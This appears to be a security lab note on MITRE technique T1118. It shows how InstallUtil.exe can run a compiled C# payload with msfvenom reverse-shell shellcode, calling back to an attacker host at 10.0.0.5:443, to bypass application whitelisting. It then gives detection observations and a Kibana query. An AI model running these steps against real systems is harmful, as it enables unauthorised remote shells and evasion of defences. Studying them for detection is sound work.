 ```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```python
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Compile the .cs to an .exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Execute the payload:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enjoy the sweet reverse shell:

![](../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code-tabs %}
{% code-tabs-item title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![InstallUtil launching the malicious payload](../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection. Need to review the sysmon configuration.
{% endhint %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}

